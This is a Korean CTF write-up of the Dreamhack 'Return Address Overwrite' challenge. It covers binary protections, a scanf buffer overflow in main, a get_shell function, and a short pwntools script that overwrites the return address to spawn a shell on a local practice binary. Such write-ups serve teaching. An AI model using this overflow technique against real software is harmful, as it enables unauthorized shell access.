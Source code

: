 ```yaml
---
layout: post
title: 'Dreamhack-Return Address Overwrite 문제 풀이'
summary: Return Address Overwrite 문제 풀이
author: TouBVa
date: '2024-12-01 16:00:00 +09'
category: ['system_hacking']
thumbnail: /assets/img/posts/2024-12-01-Return-Address-Overwrite/Untitled.png
keywords: system_hacking
usemathjax: true
permalink: /blog/system_hacking/2024-12-01-Return-Address-Overwrite
---
```


* TOC
{:toc}

<br></br>


## 0. 메타데이터 분석

![/assets/img/posts/2024-12-01-Return-Address-Overwrite/Untitled.png](/assets/img/posts/2024-12-01-Return-Address-Overwrite/Untitled.png)

<br></br>

- ELF64
- little endian

![/assets/img/posts/2024-12-01-Return-Address-Overwrite/Untitled_1.png](/assets/img/posts/2024-12-01-Return-Address-Overwrite/Untitled_1.png)

<br></br>

- not stripped
- C언어 라이브러리

![/assets/img/posts/2024-12-01-Return-Address-Overwrite/Untitled_2.png](/assets/img/posts/2024-12-01-Return-Address-Overwrite/Untitled_2.png)

<br></br>

- NX enabled, but no canary & no PIE(코드 영역 고정으로 plt, got 고정)

—> 가능한 익스플로잇은 Return Address Overwrite나 ROP 정도일 것

<br></br>

## 1. 행위 분석

<br></br>

![/assets/img/posts/2024-12-01-Return-Address-Overwrite/Untitled_3.png](/assets/img/posts/2024-12-01-Return-Address-Overwrite/Untitled_3.png)

<br></br>

단순하게 Input: 을 출력하고 사용자 입력값을 받은 후 종료하는 프로그램

해당 프로그램에 어떤 취약점이 존재하는지 파악해 보자.

<br></br>

## 2. 정적 분석

<br></br>

내부에 어떤 함수가 있는지부터 파악해 보자.

![/assets/img/posts/2024-12-01-Return-Address-Overwrite/Untitled_4.png](/assets/img/posts/2024-12-01-Return-Address-Overwrite/Untitled_4.png)

<br></br>

main 함수가 존재하고, get_shell 함수가 존재한다. 두 함수를 요주의 함수로 두고 접근하자.

<br></br>

### 2.1. alias 자동 설정 스크립트

<br></br>

disassemble을 disas로 alias 설정을 하고 싶은데, 터미널을 실행할 때마다 alias를 새로 실행해야 해서 귀찮았다. 따라서 pwndbg의 스크립트를 아래와 같이 수정해 pwndbg가 실행될 때마다 disas가 disassemble로 설정되도록 했다.

```python
# Force UTF-8 encoding (to_string=True to skip output appearing to the user)command='''set charset UTF-8alias disas=disassemble'''gdb.execute(command, to_string=True)
```
<br></br>

### 2.2. main 함수 분석

<br></br>

![/assets/img/posts/2024-12-01-Return-Address-Overwrite/Untitled_5.png](/assets/img/posts/2024-12-01-Return-Address-Overwrite/Untitled_5.png)

<br></br>

1. 내부에서 get_shell을 호출하는 부분은 없다
2. main함수의 지역 변수는 1개로, 0x30짜리 크기를 가졌음(이하 buf)
3. scanf(”%s”, buf)

scanf 함수는 길이 제한 없이 사용자 입력값을 받는 취약점이 있으므로 이를 활용할 수 있어 보인다.

<br></br>

### 2.3. get_shell 함수 분석

<br></br>

![/assets/img/posts/2024-12-01-Return-Address-Overwrite/Untitled_6.png](/assets/img/posts/2024-12-01-Return-Address-Overwrite/Untitled_6.png)



![/assets/img/posts/2024-12-01-Return-Address-Overwrite/Untitled_7.png](/assets/img/posts/2024-12-01-Return-Address-Overwrite/Untitled_7.png)



1. 0x4006aa가 해당 함수의 시작 주소
2. `execve(”/bin/sh”, *(rbp-0x8)*(/bin/sh문자열의 주소)*, 0)`를 실행하는 함수

<br></br>

## 3. 페이로드 작성

<br></br>

0x30 bytes dump + 0x08 bytes rbp dump + 0x00000000004006aa

```python
from pwn import *p=process("./rao")
payload=b'A'*0x30payload+=b'B'*0x08payload+=p64(0x4006aa, endian='little')
print(hexdump(payload))
p.sendline(payload)
p.interactive()
```

<br></br>

![/assets/img/posts/2024-12-01-Return-Address-Overwrite/Untitled_8.png](/assets/img/posts/2024-12-01-Return-Address-Overwrite/Untitled_8.png)

<br></br>

Return Address Overwrite를 통해 쉘을 딸 수 있었다.

이제 원격 호스트에 대해 실행은 생략한다(이미 푼 문제라 플래그 입력이 안 된다)